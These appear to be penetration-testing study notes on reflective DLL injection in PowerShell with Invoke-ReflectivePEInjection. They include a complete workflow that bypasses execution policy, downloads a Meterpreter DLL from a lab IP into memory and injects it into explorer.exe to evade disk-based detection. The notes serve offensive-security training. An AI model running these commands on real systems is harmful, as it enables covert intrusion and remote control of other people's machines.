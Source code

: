 # **Reflective DLL Injection in PowerShell**

## 🔹 Concept

- **Reflective DLL Injection**: Technique to load a DLL directly into the memory of a process without writing it to disk.
- Achieved via **reflection**:
    - Parses a Portable Executable (PE) (DLL/EXE) entirely in memory.
    - Resolves imports (e.g., `LoadLibrary`, `GetProcAddress`) dynamically.
    - Maps sections into the target process’ address space.

This makes detection harder since no file touches disk and execution runs in-memory.

---

## 🔹 Tool: `Invoke-ReflectivePEInjection.ps1`

- Provided by **PowerSploit** (`CodeExecution` module).
- Supports **two modes**:
    1. **Local injection**: Load DLL/EXE inside the same PowerShell process.
    2. **Remote injection**: Inject DLL into a remote process (e.g., `explorer.exe`).

📌 Old Script: [PowerSploit – Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1), The new one  

[BC-SECURITY/Invoke-ReflectivePEInjection.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-ReflectivePEInjection.ps1)

---

## 🔹 Workflow Example – Remote Injection into `explorer.exe`

1. **Bypass Execution Policy**:
    
    ```powershell
    PowerShell -Exec Bypass
    ```
    
2. **Download the DLL into memory**:
    
    ```powershell
    $bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
    ```
    
    - `met.dll` = Meterpreter DLL payload.
    - Stored in **byte array** (`$bytes`) → stays in memory.
3. **Get target process ID**:
    
    ```powershell
    $procid = (Get-Process -Name explorer).Id
    ```
    
    - Selects **explorer.exe** PID dynamically.
4. **Load and inject**:
    
    ```powershell
    Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
    Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
    ```
    
    ✅ DLL is now injected into `explorer.exe` without touching disk.
    

---

## 🔹 Common Use Case

- **Meterpreter DLL injection**:
    - Reflectively inject `metsrv.dll` into a process (e.g., `explorer.exe`) to establish Meterpreter shell.

---

## 🔹 Issues & Limitations

- **Windows 10 1803+ Incompatibility**:
    - Public PowerSploit version fails due to multiple `GetProcAddress` entries in `UnsafeNativeMethods`.
    - Fixes exist in forks (e.g., Empire, Charnim fork).
        
        📎 References:
        
        - [BC-Security Empire implementation](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-ReflectivePEInjection.ps1)
        - [PowerSploit issue #293](https://github.com/PowerShellMafia/PowerSploit/issues/293)
        - [Charnim updated version](https://github.com/charnim/Invoke-ReflectivePEInjection.ps1/blob/main/Invoke-ReflectivePEInjection.ps1)
